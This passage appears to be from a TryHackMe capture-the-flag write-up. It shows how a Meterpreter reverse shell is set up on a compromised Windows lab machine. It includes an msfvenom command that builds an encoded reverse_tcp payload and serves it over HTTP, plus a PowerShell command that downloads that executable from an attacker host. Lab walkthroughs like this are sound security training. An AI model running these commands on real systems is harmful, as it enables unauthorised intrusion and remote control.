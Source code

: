 <br />

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010165546.png' | relative_url }}" text-align="center"/>
</div>

<br />

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010165556.png' | relative_url }}" text-align="center"/>
</div>

And we have gained access to the machine. Now, we are going to switch to a meterpreter shell through the C2 enviroment of Metasploit following the steps below.

- First we start the Msfconsole to start a multihandler:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010171744.png' | relative_url }}" text-align="center"/>
</div>

- Next, we use Msfvenom to create a payload with meterpreter for windows and intiate a python server to download with the victim machine the malicious script:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe; python3 -m http.server
```

<br />

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010172039.png' | relative_url }}" text-align="center"/>
</div>

And then, we download it with the cmd comand:

```cmd
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.90.103:8000/shell.exe','shell.exe')"
```

<br />

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010172408.png' | relative_url }}" text-align="center"/>
</div>

- At last, we initiate the process with powershell:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010172737.png' | relative_url }}" text-align="center"/>
</div>

<br />
